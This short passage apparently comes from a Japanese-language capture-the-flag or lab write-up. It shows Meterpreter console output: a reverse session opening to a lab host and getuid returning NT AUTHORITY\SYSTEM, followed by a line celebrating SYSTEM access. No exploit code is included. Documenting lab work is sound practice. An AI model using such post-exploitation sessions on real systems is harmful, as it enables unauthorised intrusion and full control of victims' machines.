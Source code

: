 ```
[*] Meterpreter session 2 opened (10.10.14.7:4444 -> 10.10.10.5:49159) at 2020-06-05 03:02:45 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
これでNT AUTHORITY\SYSTEMを手に入れることができました。
